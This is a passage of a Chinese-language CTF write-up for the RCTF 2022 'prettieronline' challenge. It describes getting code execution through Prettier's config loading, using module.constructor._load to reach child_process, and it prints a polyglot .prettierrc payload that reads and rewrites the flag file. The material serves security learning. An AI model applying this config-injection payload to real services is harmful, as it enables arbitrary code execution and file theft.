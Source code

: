 先把 `RegExp.test` 改掉，就可以 require 任意東西，接著再讓 `fs.writeFileSync` 的時候內容會被換成 flag，最後就能拿到 flag 了。

作者 writeup：https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2022/prettieronline

發現 require 根本不用繞，用 `module.constructor._load('child_process')` 其實就可以了，因為 require 裡面也是再去呼叫這個 _load 的方法：https://github.com/nodejs/node/blob/265ea1e74ef429f7c27f05ac4cc9136adf2e8d9b/lib/internal/modules/cjs/loader.js

``` js
// Loads a module at the given file path. Returns that module's
// `exports` property.
Module.prototype.require = function(id) {
  validateString(id, 'id');
  if (id === '') {
    throw new ERR_INVALID_ARG_VALUE('id', id,
                                    'must be a non-empty string');
  }
  requireDepth++;
  try {
    return Module._load(id, this, /* isMain */ false);
  } finally {
    requireDepth--;
  }
};
```

最後還有一個 Nu1L 的 payload 也很炫：

```
/*/../app/.prettierrc
#*/const fs = require('fs'); var a = fs.readFileSync("flag", "utf-8");fs.writeFileSync("./dist/ret.js",a);fs.chmodSync("./dist/ret.js",0o444);process.addListener('uncaughtException', (err) => {console.log("ss",err);process.exit(0);})
```

這個利用了我開頭講的輸出一個字串就會 require，背後也是先用 yaml parse 所以 `#` 後面是註解，然後路徑的部分用了 `/*` 搭配第二行的 `*/` 結合變成合法 JS，tql！


最後附上其他有找到的 writeup：

1. [RCTF 2022 WriteUp By F61d](https://www.ctfiot.com/85535.html)
2. [2022RCTF WriteUp by Venom](https://cn-sec.com/archives/1460829.html)


